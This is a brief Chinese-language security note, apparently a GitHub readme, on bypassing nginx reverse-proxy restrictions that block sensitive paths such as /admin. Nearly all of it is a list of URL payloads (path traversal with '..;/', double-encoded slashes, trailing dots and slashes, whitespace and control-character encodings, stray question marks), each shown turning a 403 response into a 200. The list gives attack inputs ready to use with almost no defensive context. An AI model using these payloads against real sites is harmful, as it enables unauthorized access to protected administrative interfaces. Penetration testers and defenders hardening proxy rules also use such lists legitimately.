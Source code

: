 ## 0x00 技术背景

       之前碰过几个项目，中间件nginx做反向代理，后端代码是PHP或者JAVA，过nginx一般会识别ip，从而限制攻击者访问敏感路径，所以可以通过绕过方式限制nginx
       
       
## 0x01 forbidden绕过


      site.com/admin => 403
      site.com/admin/ => 200
      site.com/random-dir/../admin => 200
      site.com/random-dir/..;/admin => 200
      site.com/random-dir/..%252F/admin => 200
      site.com/admin// => 200
      site.com//admin// => 200
      site.com/admin/* => 200
      site.com/admin/*/ => 200
      site.com/admin/. => 200
      site.com/admin/./ => 200

      site.com/./admin/./ => 200
      site.com/admin/./. => 200
      site.com/admin/./. => 200
      site.com/admin? => 200
      site.com/admin?? => 200
      site.com/admin??? => 200
      site.com/admin..;/ => 200
      site.com/admin/..;/ => 200
      site.com/%2f/admin => 200
      site.com/%2e/admin => 200
      site.com/admin%20/ => 200
      site.com/admin%09/ => 200
      site.com/%20admin%20/ => 200
      site.com/%0dadmin => 200

